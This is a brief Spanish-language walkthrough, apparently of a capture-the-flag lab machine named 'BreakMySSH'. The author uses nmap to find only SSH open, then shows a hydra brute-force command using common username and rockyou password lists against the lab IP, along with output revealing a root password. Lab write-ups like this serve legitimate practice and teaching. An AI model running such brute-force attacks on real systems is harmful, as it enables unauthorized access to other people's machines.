 # BreakMySSH

Con un `nmap` vemos que solo está abierto el puerto de SSH. Por el nombre de la máquina me puedo imaginar que hay que hacerle fuerza bruta.

```bash
hydra -L /usr/share/wordlists/SecLists-2025.2/Usernames/top-usernames-shortlist.txt -P /usr/share/wordlists/rockyou.txt ssh://$IPTARGET
```

```bash
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: root   password: estrella
```

![[Pasted image 20250724032351.png]]